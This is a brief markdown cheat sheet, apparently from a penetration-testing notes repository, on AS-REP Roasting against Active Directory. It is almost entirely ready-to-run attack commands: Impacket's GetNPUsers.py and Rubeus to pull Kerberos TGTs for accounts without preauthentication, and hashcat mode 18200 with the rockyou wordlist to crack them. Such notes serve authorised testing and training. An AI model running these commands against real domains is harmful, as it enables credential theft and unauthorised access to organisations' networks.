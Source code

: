 # AS-REP Roasting

***Requirements :***   
- Valid usernames list
- AD Users with **DONT_REQUIRE_PREAUTH** set
## Retrieve TGT 
### Using Impacket
On the attacket shell
```bash
GetNPUsers.py <TARGET DOMAIN>/ -dc-ip <DC IP>  -usersfile <USERLIST> -no-pass
```

### Using Rubeus
Via the target machine shell

```cmd
Rubeus.exe asreproast 
```

## Crack TGTs \\w hashcat

```bash
hashcat -a 0 -m 18200 <HASH FILE> /usr/share/wordlists/rockyou.txt
```